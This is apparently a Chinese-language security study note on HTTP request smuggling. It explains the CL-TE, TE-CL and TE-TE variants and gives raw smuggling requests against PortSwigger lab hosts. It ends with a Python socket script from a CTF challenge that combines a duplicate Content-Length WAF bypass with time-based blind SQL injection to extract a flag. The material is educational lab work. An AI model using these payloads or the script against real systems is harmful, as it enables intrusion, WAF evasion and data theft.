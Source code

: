 ```yaml
---
title: http请求走私笔记
author: ch3n9w
date: 2020-08-24 22:22:46
typora-root-url: ../
categories:
  - 安全研究
---
```






正常的请求

![image-20211114141452612](image-20211114141452612.png)

<!--more-->

请求走私, 攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中, 一个典型的例子是反射型xss, 通过在上一次请求中走私一个请求头, 就可以在正常用户接下来进行的一次正常请求的过程中纂改其请求内容, 比如修改他的请求路径为一个反射性xss链接, 这样就可以达到让用户点击正常链接但是却触发xss链接的目的.

![image-20211114141459648](image-20211114141459648.png)

其他的利用

- 捕获用户请求
- 缓存投毒
- 绕过waf(夹带危险请求url, 并在下一次正常请求的时候触发)
- 绕过前端安全控制



首先要知道http发包过程中两个标头的意思

- Content-Length

  - 表示请求体的长度, 简称CL

  ```
  Content-Length: 10
  
  8
  HELLO
  
  ```
  

10个长度指的是以下内容的长度

```
8\r\n
HELLO\r\n
```



- Transfer-Encoding, 简称TE

  - 表示编码时使用的安全传输的形式有效载荷体

  ```
  # 常见的几种
  Transfer-Encoding: chunked
  Transfer-Encoding: compress
  Transfer-Encoding: deflate
  Transfer-Encoding: gzip
  Transfer-Encoding: identity
  ```

  请求走私中一般用的都是``chunked``, 将消息正文视为使用分块编码.这里声明8字节长度, 经过一个换行后开始统计, 统计完8字节后经过一个换行表示下一个数据块开始, 长度为0, 被视为请求终止

  ```
  Transfer-Encoding: chunked
  
  8
  SMUGGLED
  0
  
  
  ```
  
  一个典型的请求如下
  
  ```http
  HTTP/1.1 200 OK 
  Content-Type: text/plain 
  Transfer-Encoding: chunked
  
  7\r\n
  Mozilla\r\n 
  9\r\n
  Developer\r\n
  7\r\n
  Network\r\n
  0\r\n 
  \r\n
  ```
  
  

请求走私发生在存在前端服务器和后端服务器的情况下, 一般有这么几种

-  CL-TE: 前端服务器识别的是Content_-Length, 后端服务器识别的是Transfer-Encoding
- TE-CL: 前端服务器识别的是Transfer-Encoding, 后端服务器识别的是Content-Length
- TE-TE: 前端服务器和后端服务器都是识别Transfer-Encoding的, 但是可以通过某种方式处理标头诱导一台服务器不对其进行处理

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



## CL-TE

```http
POST / HTTP/1.1
Host: ac811f861fa3584f80e0998500f800dc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=6mA52yc42gmrXsBVf3gCCwaizRMowHXn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

> 长度为6是因为0\r\n\r\nG, chunked看到0\r\n\r\n之后就结束接受了, 剩下来一个作为下一个请求头的开始

## TE-CL

```http
POST / HTTP/1.1
Host: ac4e1f3c1fe90e5480a44952006b00a0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


```

> chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分



## TE-TE

```http
POST / HTTP/1.1
Host: ac731fb01fc279f280a00aac002d0026.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nGAfuCE6lQ9mnpysbHjt8yG3eO5XnU5S
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: nothing

12
GPOST / HTTP/1.1

0


```

> 这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况



## 脚本示例

burpsuite有时候会失败, 用socket

```python
# 2019 高校运维赛 ezwaf
# 使用cl-cl模式 两个content-length
import socket

ip = '111.186.57.43'
port = 10601

def send_raw(raw):
    try:
        with socket.create_connection((ip, port), timeout=5) as conn:
            conn.send(raw)
            res = conn.recv(10240).decode()
            # print(res)
            return False
    except:
        return True



if __name__ == '__main__':
    
    res = 'flag{abypass_modsecurity_'
    res = ""
    for i in range(1, 64):
        for j in range(32, 127):
            payload = '''GET /?age=1%20or%201%20and%20ascii(substr((select%20*%20from%20flag_xdd),{},1))={}%20and%20sleep(7) HTTP/1.1
Host: 111.186.57.43:10601
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 0
Content-Length: 0

'''.format(str(i), str(j))
            exp = payload.encode().replace(b'\n', b'\r\n')
            # print(exp)
            if send_raw(exp):
                res += chr(j)
                print(res)
                continue
```



使用工具:

burpsuite插件HTTP Request Smuggler

https://github.com/defparam/smuggler

参考

https://mp.weixin.qq.com/s/MFw7Trd-zFWNXsU3wTG_Mg

https://portswigger.net/web-security/request-smuggling/exploiting
